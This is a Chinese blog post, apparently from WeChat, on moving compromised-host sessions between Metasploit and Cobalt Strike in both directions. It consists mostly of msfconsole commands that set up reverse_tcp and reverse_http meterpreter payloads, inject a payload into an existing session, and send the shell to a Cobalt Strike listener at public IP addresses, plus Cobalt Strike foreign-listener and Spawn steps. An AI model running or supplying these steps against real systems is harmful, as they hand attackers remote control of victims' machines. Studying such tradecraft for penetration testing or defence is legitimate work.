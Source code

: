> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247484295&idx=1&sn=e8542c707f698ba30d42b267d8de83f8&chksm=eaad83baddda0aac0edecc67eb42704f49289583f3cb5835c3c04ee4fedb5cb1ddc66430b329&scene=21#wechat_redirect)

MSF 和 CobaltStrike 联动

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5ERJbGopDs6ynDIABQDiakOofnztUV8T9FrRBjp1FBibBlpXuraef7dHwx2PdPgXkQ2u1fIFiaP3ZBw/640?wx_fmt=gif)

目录

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC6T1Ahicengcu2gQ0PNKyQErs8Cy1Xj3DG6S05tSRd025I0Wk31utmMRRZt6kukoMx3wwsibXgv2y9Q/640?wx_fmt=png)

当获取了 CobaltStrike 类型的 session 后，想派生一个 MSF 类型的 shell

当获取了 MSF 类型的 session 后，想派生一个 CobaltStrike 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

当获取了 CobaltStrike 类型的 session 后，想派生一个 MSF 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

**在 MSF 上的操作：**

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.10.11
set lport 4444
exploit -j
```

**![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k30v92pTM5iaBC4FanpkFu5yBWIugNn2h8icsps0A9icEfbswTwrxbxT0Q/640?wx_fmt=png)**

**在 CobaltStrike 上的操作**

开启一个监听器 Listener，HOST 和 PORT 填我们 MSF 监听的地址 (这里需要注意，如果我们的 MSF 也是在内网中的话，需要将 MSF 的端口映射到公网地址)，这里我们将 Kali 的端口映射到了公网的 server.natappfree.cc:38615 (112.74.89.58:38615 )。

如果我们的公网 VPS 上安装了 MSF 的话 ，就不需要映射端口了。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kNUBOKYGdeicI79VmtQUs0wJTDvHtlx1vvODWBEFqAXlbMGZiaiapo64HQ/640?wx_fmt=png)

这里一定要注意，创建的 Listener 是 foreign!

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k1RbEP2WfAzq4I2R0FqlLOcz1IYFadiaEbnmaAnw016V4K0va1UUQaWQ/640?wx_fmt=png)

然后选中计算机，右键 ->Spawn，选择刚刚创建的监听器 MSF，然后我们的 MSF 即可看到成功获取了 meterpreter 会话

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kC2fHYJwhyG4HMTVtNFZH0BXnxrP1hBsB4SspFkTicflvCZI9VA2vMiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

当获取了 MSF 类型的 session 后，想派生一个 CobaltStrike 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

**注：只有 meterpreter 类型的 session 才能派生给 CS**

我们现在获得了一个 MSF 的 meterpreter 类型的 session，session id 为 1

首先在 CobaltStrike 上开启 Listener，

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kBa7NicBrs7agwxj7quMGJbxRV4w6kxgB5WJmByCJupB5PMPBSZTpyQA/640?wx_fmt=png)

然后在 MSF 中进行如下操作

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set lhost 48.94.225.140         #cobaltstrike监听的ip
set lport 14444                 #cobaltstrike监听的端口 
set session 1                   #这里是获得的session的id
exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kffY1cGwC6ALQX8Uy5Pt7B9yMfF39BiczbpVvsQK0EAxZTgicKhm0QjTw/640?wx_fmt=png)

这样，我们的 CobaltStrike 上就可以收到 MSF 弹回来的 session 了。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

END

来源：谢公子博客

责编：Vivian

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2edCjiaG0xjojnN3pdR8wTrKhibQ3xVUhjlJEVqibQStgROJqic7fBuw2cJ2CQ3Muw9DTQqkgthIjZf7Q/640?)

如果文中有错误的地方，欢迎指出。有想转载的，可以留言我加白名单。

最后，欢迎加入谢公子的小黑屋（安全交流群）(QQ 群：783820465)

![](https://mmbiz.qpic.cn/mmbiz_gif/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SjCxEtGic0gSRL5ibeQyZWEGNKLmnd6Um2Vua5GK4DaxsSq08ZuH4Avew/640?)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2et9NHxRhN8exP4Ly6FKH9SFQtevncFtKIlfLdaxSwwqFxgkrUz1x12kPp3ueaJctagDUcyJDGJyA/640?)